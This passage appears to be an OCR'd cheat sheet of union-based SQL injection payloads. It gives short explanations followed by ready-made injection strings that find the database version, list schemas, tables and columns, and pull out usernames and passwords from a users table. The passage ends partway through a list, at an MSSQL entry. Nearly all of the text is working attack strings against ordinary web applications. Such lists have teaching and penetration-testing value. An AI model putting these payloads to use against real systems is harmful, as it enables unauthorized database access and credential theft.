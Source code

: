 ```
' UNION SELECT null, username, password FROM users -- 
```

#### Union-Based SQLi Enumeration
Union-Based SQLi exploits the ability to inject a `UNION` query that is syntactically correct and returns meaningful data. The attacker's goal is to append their own `SELECT` query that extracts sensitive data from other tables within the database.

- **Finding Database Version:**

```
UNION SELECT 1, @@version, 3; -- The @@version variable returns the database version
```

- **Listing All Databases:**

```
UNION SELECT 1, schema_name, 3 FROM information_schema.schemata;
```

- **Listing All Tables in a Specific Database:**

```
UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema='database_name';
```

- **Listing All Columns in a Specific Table:**

```
UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='table_name';
```

- **Extracting Multiple Columns:** This payload extracts the database name and current user, combining it with the result set of the original query.

```
' UNION SELECT 1, database(), user(), 4 --
```

- **Enumerating All Tables:**  This payload retrieves all table names from the current database schema and combines them with the original query.

```
' UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema = database() --
```

- **Extracting All Usernames and Passwords (MySQL):**

```
' UNION SELECT null, username, password FROM users -- 
```

- **Retrieve All Tables in the Database (MySQL):**

```
' UNION SELECT null, table_name, null FROM information_schema.tables WHERE table_schema = database() -- 
```

- **Extracting Data from Multiple Columns (MSSQL):**
